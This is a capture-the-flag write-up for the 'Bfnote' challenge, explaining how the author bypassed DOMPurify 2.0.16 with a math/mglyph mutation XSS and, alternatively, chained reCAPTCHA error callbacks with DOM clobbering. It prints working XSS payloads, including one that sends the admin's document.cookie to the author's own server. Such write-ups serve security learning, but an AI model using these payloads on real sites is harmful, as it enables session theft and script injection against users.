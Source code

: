 ## Bfnote (320 points, 18 solves)
This was a client-side challenge, whose goal was to steal the admin's cookie. 


### DOMPurify Bypass
The application was protected by DOMPurify in version 2.0.16 which during CTF happened to have a complete bypass in Chrome. A few days ago, [Michał Bentkowski](https://twitter.com/SecurityMB) disclosed a very cool [mXSS bypass](https://twitter.com/SecurityMB/status/1306940251496230912) for the sanitizer which abused strange behaviors of `<math>` elements which initial support has been recently added to Chrome. 

The bypass was: 

```html
<form><math><mtext></form><form><mglyph><style><img src=x onerror=alert()>
```

The [fix](https://github.com/cure53/DOMPurify/commit/ce22c8ca95675171e412b1590568cfc8065debd4#diff-39d3e4cf739c51697e855107d73a23f5R676) seemed very weak against such powerful mutation, which only removed `<math>` elements containing `<form>` children. I fuzzed other elements with the following snippet:

```js
var elms = ["a","abbr","acronym","address","area","article","aside","audio","b","bdi","bdo","big","blink","blockquote","body","br","button","canvas","caption","center","cite","code","col","colgroup","content","data","datalist","dd","decorator","del","details","dfn","dir","div","dl","dt","element","em","fieldset","figcaption","figure","font","footer","form","h1","h2","h3","h4","h5","h6","head","header","hgroup","hr","html","i","img","input","ins","kbd","label","legend","li","main","map","mark","marquee","menu","menuitem","meter","nav","nobr","ol","optgroup","option","output","p","picture","pre","progress","q","rp","rt","ruby","s","samp","section","select","shadow","small","source","spacer","span","strike","strong","style","sub","summary","sup","table","tbody","td","template","textarea","tfoot","th","thead","time","tr","track","tt","u","ul","var","video","wbr"];

for(let el of elms){
    let p = `<form><math><mtext></form><${el}><mglyph><style><img>`;
    document.body.innerHTML = p;
    let old = document.body.innerHTML;
    document.body.innerHTML = old;
        if(document.body.innerHTML != old){
            console.log(p);
        }
}
```

and it yielded another mutation with `<table>` and which can be simplified to: 

```html
<math><mtext><table><mglyph><style><img src=x onerror=alert()>
```

This was a 0day for a split second (maybe a negative number :P), because seconds later, it was already fixed and announced in a [tweet](https://twitter.com/cure53berlin/status/1307602849455640576). 

Too bad someone has tweeted it publicly on Twitter and broke the whole challenge... 

The server restricted usage of some characters but crafting the payload was quite easy. My final payload sent to admin was:

```html
<math><mtext><table><mglyph><style><img src=x onerror=location=location.pathname+/terjanq.me/+document.cookie>
```

which leaked the cookies to my server, where also was the flag:

#### TWCTF{reCAPTCHA_Oriented_Programming_with_XSS!}


### Intended solution

By looking at the flag, it clearly was not the intended solution so I spent some time finding another way. 

The application was simulating the Brainf*ck decompiler and displayed the output to the page. However, it was protected by two mechanisms:
* before displaying it to the DOM, `<` and `>` were replaced with their HTML entity equivalents.

```js
  // no xss please
output = output.replaceAll('<', '&lt;').replaceAll('>', '&gt;')
writeOutput();
```
* `writeOutput` function was protected by the following snippet.

```js
function writeOutput() {
  if (statusCode !== 3) {
    if (CONFIG.unsafeRender) {
      document.getElementById('output').innerHTML = output;
    } else {
      document.getElementById('output').innerText = output;
    }
  }
}
```

Not only the application had to execute properly, but also `CONFIG.unsafeRender` had to be defined, to have any chances for XSS. However, if the application exited successfully, the output would not contain `<`, `>` characters. 

Since the code was much more complicated than this, I included the whole code in the snippet [bf.js](#file-bf-js).

#### ReCAPTCHA for the rescue
There is an interesting [feature](https://developers.google.com/recaptcha/docs/display#render_param) in Google's reCAPTCHA that allows us to specify a function callback via `data-callback` attribute on `g-recaptcha` button. This, when clicked on the button, will invoke the specified callback function. From the spec, we can also notice `data-error-callback` which is explained as:

> Optional. The name of your callback function, executed when reCAPTCHA encounters an error (usually network connectivity) and cannot continue until connectivity is restored. If you specify a function here, you are responsible for informing the user that they should retry.

By providing an invalid `sitekey`, it will instantly trigger an alert via:

```html
<button class="g-recaptcha" data-sitekey="1337" data-error-callback="alert">
```

With that, we could potentially invoke the `writeOutput` function even if the program hasn't exited properly. And because of that, `output` could contain unreplaced `<` and `>` characters, because the `replaceAll` function will never be called. 

#### CONFIG clobbering
The `CONFIG.unsafeRender` check is easy to bypass with DOM Clobbering. 

I did it via:

```html
<a id=CONFIG name=unsafeRender>
<a id=CONFIG>
```

#### The solution
Although the idea for the solution was simple, the execution of it was proven to be a little harder. After the program exits with an exception, the `statusCode` is set to `3` which we need to change back to something different. It can be done in two ways:

1. By calling `initProgram` which sets it back to `0`.
2. By calling `runProgram` which sets it to `1` and then runs the program.

We can perform both steps by injecting two `reCAPTCHA` buttons:

```html
<button class="g-recaptcha" data-sitekey="1337" data-error-callback="runProgram">
<button class="g-recaptcha" data-sitekey="1337" data-error-callback="writeOutput">
```

The former method was problematic because if the program finished before `writeOutput` was invoked, the `statusCode` would once again be set to `3`. To make it work, the program would have to be slowed down by some expensive operations.


The latter looks promising but has one downside. After initiating the program, it will also invoke the below snippet, which resets the prepared CONFIG clobbering in the payload because of innerText method.

```js
  program = document.getElementById('program').innerText;
  document.getElementById('program').innerHTML = DOMPurify.sanitize(program).toString();
```

However, I managed to bypass the innerText with a trick `<<u>u>123` which after the first iteration will have `u>123` underscored, and after the second one will have `123`. This could be used to redefine clobbered properties. 

With that, I crafted the following final payload:

```html
----[---->+<]>---.--[->++<]>-.+.+++++.[->+++<]>+.-------.[->+++<]>.+[----->+<]>-.-.--.+++.--------------.+++.[++++>-----<]>.[----->++++<]>.+++++++++++.------------.-[--->+<]>-.--------.--------.+++++++++.++++++.[++>---<]>.[--->++<]>+++.-----.---------.+++++++++++.+++[->+++<]>.--[->+++<]>-.+++++++.-[--->++<]>.+++[->+++<]>.+++++++++++++.--------.---------.+++++++++++++.+++.-[->+++++<]>-.------.+[-->+++<]>-.
<<a id=CONFIG name=unsafeRender>a id=CONFIG name=unsafeRender>>
<<a id=CONFIG>a id=CONFIG>>
<button class="g-recaptcha" data-sitekey="123" data-error-callback="initProgram">
<button class="g-recaptcha" data-sitekey="1234" data-error-callback="writeOutput">

<!-- repeat to have a better chance for the correct order of calls -->
<button class="g-recaptcha" data-sitekey="1234" data-error-callback="writeOutput">
<button class="g-recaptcha" data-sitekey="1234" data-error-callback="writeOutput">
<button class="g-recaptcha" data-sitekey="1234" data-error-callback="writeOutput">
```

which when visiting the [https://bfnote.chal.ctf.westerns.tokyo/?id=e6857fd3f5d53d37](https://bfnote.chal.ctf.westerns.tokyo/?id=e6857fd3f5d53d37) URL, rewrites the document to `/terjanq/`.

The first part of the payload is just `<style/onload=document.write(/terjanq/)>` encoded in Brainf*ck.
